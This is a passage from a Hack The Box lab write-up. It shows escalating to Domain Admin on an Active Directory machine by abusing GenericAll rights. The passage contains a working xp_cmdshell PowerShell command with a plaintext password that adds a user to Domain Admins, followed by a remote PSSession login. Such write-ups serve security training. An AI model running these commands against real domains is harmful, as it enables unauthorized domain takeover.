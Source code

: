![Bloodhound](/assets/images/htb-writeup-poo/Screenshot_18.png)

Wow, p00_adm has GenericAll access to all lot of groups, including Domain Admins!

https://www.harmj0y.net/blog/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/

> TL;DR: if we control an object that has SeEnableDelegationPrivilege in the domain, AND said object has GenericAll/GenericWrite rights over any other user object in the domain, we can compromise the domain at will, indefinitely.

We'll try using MSSQL again and run commands p00_adm and see if we can escalate to Domain Admin.

`xp_cmdshell 'powershell -c "import-module c:\temp\p.ps1; $SecPassword = ConvertTo-SecureString \"ZQ!5t4r\" -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential(\"intranet.poo\p00_adm\", $SecPassword); Add-DomainGroupMember -Identity \"Domain Admins\" -Members \"p00_adm\" -Credential $Cred "'`

Command has executed successfully, let's log in:

```
PS C:\Users\snowscan> $SecPassword = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
PS C:\Users\snowscan> $Credential = New-Object System.Management.Automation.PSCredential('intranet.poo\p00_adm', $SecPassword)
PS C:\Users\snowscan> enter-pssession -computername [dead:babe::1001] -credential $Credential
[[dead:babe::1001]]: PS C:\Users\p00_adm\Documents> whoami
poo\p00_adm
```
